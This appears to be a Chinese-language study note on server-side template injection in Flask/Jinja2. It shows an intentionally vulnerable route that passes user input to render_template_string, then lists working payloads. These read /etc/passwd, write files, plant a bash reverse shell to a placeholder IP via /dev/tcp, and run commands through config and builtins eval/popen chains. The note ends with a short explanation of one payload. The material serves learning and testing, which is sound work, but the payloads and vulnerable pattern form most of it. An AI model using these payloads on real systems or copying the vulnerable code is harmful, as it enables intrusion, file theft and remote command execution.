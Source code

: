 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
## 常见payload
```
查看配置选项
{{%20config.items()%20}}
python2
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}
#命令执行1
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
#命令执行2
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}


python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 当输入这段payload的时候，这段标签会被当做模板中的标签来解析
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前函数所在命名空间下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*
- 然后利用每个python都会加载builtins这个模块而这个模块中有eval、exec、open等函数，然后就构成了代码注入
- 说是这么说，在做还不会

# 相关文档
- 掘金[Flask jinja2模板注入思路总结](https://juejin.im/entry/5a91040ef265da4e9268410ehttps://juejin.im/entry/5a91040ef265da4e9268410e)
- Freebuf[探索Flask/Jinja2中的服务端模版注入](https://www.freebuf.com/articles/web/98619.html)
- csdn[内置函数+内置变量+内置模块](https://blog.csdn.net/nameix/article/details/54341949)
